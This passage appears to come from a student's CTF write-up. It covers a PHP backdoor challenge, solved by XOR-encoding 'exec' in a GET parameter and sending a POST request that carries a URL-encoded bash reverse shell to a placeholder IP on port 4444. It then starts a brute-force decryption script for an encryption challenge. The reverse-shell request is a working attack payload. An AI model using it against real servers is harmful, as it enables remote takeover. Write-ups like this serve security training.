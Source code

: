 The variable $x is a xor result of the string "d00r" and get request parameter 87's value.
So if we request the web page like ```http://webpage?87=%01%48%55%11```
The result of $x would be "exec".

The last line of code represent that the php will execute the command $x which parameter is the paramter $c value of _POST.

Combined all of it,we construct a request with burpsuite,we finally got a reverse shell.
```
POST /d00r.php?87=%01HU%11 HTTP/1.1
Host: edu-ctf.csie.org:10151
User-Agent: Mozilla/5.0 (X11; Linux i686; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 65
Content-Type: application/x-www-form-urlencoded

%23=bash+-i+%3E%26+%2Fdev%2Ftcp%2Fip_addr%2F4444+0%3E%261
```
![](https://i.imgur.com/TM50pPd.png)
flag:FLAG{do_u_like_my_d0000000r?}

## Encrypt

- In the resource I downloaded,I have the encrypted cipher and the source which encrypt the original flag file.
- After analyzing the source code,I found all random functions are actually generating certain values.
- The uncertain factor in source code is only the key which used to encrypt the original flag,but the possibility of the key only differs from 0 to 255,vulnerable to be bruforced.
- After reversing every functions which used to encrypt the flag,we used loop to list all flags which encrpyed by different keys,below is my exploit code:
```=python3
#!/usr/bin/env python3
from sympy import *
import random

def op1(p, s):
    return sum([i * j for i, j in zip(s, p)]) % 256

def op2(m, k):
    return bytes([i ^ j for i, j in zip(m, k)])

def op3(m, p):
    return bytes([m[p[i]] for i in range(len(m))])

def op4(m, s):
    return bytes([s[x] for x in m])

'''
Linear Feedback Shift Register
'''
def dec_op2(c):
    k = [239, 194, 15, 76, 81, 87, 59, 247, 160, 19, 227, 201, 119, 125, 116, 166]
    return bytes([i ^ j for i,j in zip(c,k)])

def dec_op3(c):
    rev_p = [14, 13, 0, 10, 15, 3, 6, 4, 2, 9, 11, 1, 5, 7, 8, 12]
    return bytes([c[rev_p[i]] for i in range(len(c))])

def dec_op4(c):
```